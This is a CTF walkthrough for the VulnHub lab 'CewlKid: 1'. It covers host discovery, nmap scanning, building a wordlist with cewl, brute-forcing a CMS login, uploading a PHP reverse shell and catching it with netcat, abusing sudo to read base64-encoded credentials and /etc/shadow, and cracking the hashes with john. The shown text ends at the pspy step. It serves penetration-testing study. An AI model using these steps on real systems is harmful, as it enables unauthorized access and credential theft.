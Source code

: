 # CewlKid: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:ac:dd:85       PCS Systemtechnik GmbH
192.168.56.121  08:00:27:d7:32:a1       PCS Systemtechnik GmbH
```

The ip address is `192.168.56.121`, let's scan it.


## 2.Enumeration

```bash
root@kali: nmap -p80,22,8080 -v -sC -sV -oN nmap.out 192.168.56.121

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:87:08:d7:ed:3a:9d:f6:be:91:7e:01:24:c8:74:c0 (RSA)
|   256 d6:22:68:01:2c:e2:c5:72:8e:1b:23:68:77:3e:10:7d (ECDSA)
|_  256 bb:91:85:49:86:fd:af:66:42:a3:f4:12:90:a3:31:6a (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Sitemagic CMS
|_http-title: Welcome - about us
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: E6E1C631192DE24218AC9348293A46CB
```

I begin with port 80 and there is just a simple apache web page, next we go for port `8080` and there is a CMS here

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c8c8f1a4-6e71-4d9d-917d-1f3fd88b54c0)


we immediately see the login page for the CMS and now we need credentials, as the name of the CTF suggests that it is a hint

i can see that `cewl` is the name of wordlist generator base on the site content, lets create a wordlist :

```bash
root@kali: cewl -w wordlist.txt -d 5 -m 4 http://192.168.56.121:8080
```

now we can check for admin login, just catch the request in burp and send it to intruder and wait for a different response length :


yes. we found the password for login.


## 3.Gaining Shell

Inside the panel we see and admin menu which we can upload file in it, just upload a php reverse shell and the load it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e44ab129-72b0-43c1-84be-6513db3b7ad3)


start a listener and navigate to `http://192.168.56.121/files/image/rev.php` to get the shell :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.56.102] from (UNKNOWN) [192.168.56.121] 46618
Linux cewlkid 5.4.0-47-generic #51-Ubuntu SMP Fri Sep 4 19:50:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:45:39 up  1:55,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation (ipsum)

Using `sudo -l` we find our sudo permissions and this is where we see that we can run `/usr/bin/cat` as user ipsum :

```bash
$ sudo -l
Matching Defaults entries for www-data on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on cewlkid:
    (ipsum : ipsum) NOPASSWD: /usr/bin/cat
```

let's check which files use ipsum has access to :

```bash
$ find / -user ipsum -type f 2>/dev/null
/var/www/example.com/html/.../nothing_to_see_here
```

let's see the content of it :

```bash
$ sudo -u ipsum /usr/bin/cat /var/www/example.com/html/.../nothing_to_see_here
aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=
bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=
```

decode the strings :

```text
ipsum : SpeakPeople22!

lorem : PeopleSpeak44!
```

## 5.Privilege Escalation (lorem)

Change the user to lorem and check sudo permissions again :

```bash
sudo -l
Matching Defaults entries for lorem on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lorem may run the following commands on cewlkid:
    (root : root) NOPASSWD: /usr/bin/base64 /etc/shadow
```

now we can get base64 encode of `/etc/shadow`, get it and merge it with `/etc/passwd` :

```bash
root@kali: unshadow passwd.txt shadow.txt > unshadow.txt
```

use the wordlist we generated earlier again :

```bash
john unshadow.txt --wordlist=wordlist.txt                
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PageMaker        (zerocewl)     
1g 0:00:00:00 DONE (2024-02-17 08:06) 3.125g/s 559.3p/s 2796c/s 2796C/s Follow..Language
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

yes we found another user password


## 6.Privilege Escalation (zerocewl)

Change user to `zerocewl` and check the system with `pspy64` to monitor the processes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6ffa90bc-eea5-487e-b6db-587eefa858cb)
